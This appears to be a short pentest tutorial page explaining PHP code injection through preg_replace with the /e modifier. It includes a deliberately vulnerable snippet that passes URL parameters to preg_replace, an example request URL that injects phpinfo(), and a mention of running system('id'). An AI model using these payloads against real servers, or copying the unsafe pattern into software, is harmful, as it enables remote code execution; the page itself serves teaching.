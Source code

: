 # Php Injection

PHP (recursive acronym for PHP: Hypertext Preprocessor) is a widely-used open source general-purpose scripting language that is especially suited for web development and can be embedded into HTML.

### Table of Contents

- [Preg_replace exploit](#preg_replace-exploit)
- [Docu](#documentation)

## Preg_Replace exploit

`preg_replace($pattern, $replacement, $subject)`

Searches subject for matches to pattern and replaces them with replacement.

Preg_replace isn't vulnerable except if the patern end with /e.

Cause /e let replacement execute php function.

If you can control $pattern or if it finish with /e you can execute code like : `system('id')`.

### Exemple

Simple code :

```php
echo "original : ".$subject ."</br>";
    echo "replaced : ".preg_replace($pattern, $replacement, $subject);
```

`index.php?pattern=/as/&replacement=As&subject=as your wish exploit`

> It replace as per As in the string \'as you wish exploit\'.

but what if :

`index.php?pattern=/as/e&replacement=phpinfo();&subject=as your wish exploit`

> It replace as per the output of the fucntion phpinfo() cause we had /e at the end.

#### Doc

- [man preg_replace](https://www.php.net/manual/en/function.preg-replace.php)
- [exploit preg_replace](https://captainnoob.medium.com/command-execution-preg-replace-php-function-exploit-62d6f746bda4)

### Documentation

- [Php Manual](https://www.php.net/manual/en/index.php)

---

[**:arrow_right_hook: Back home**](../README.md)
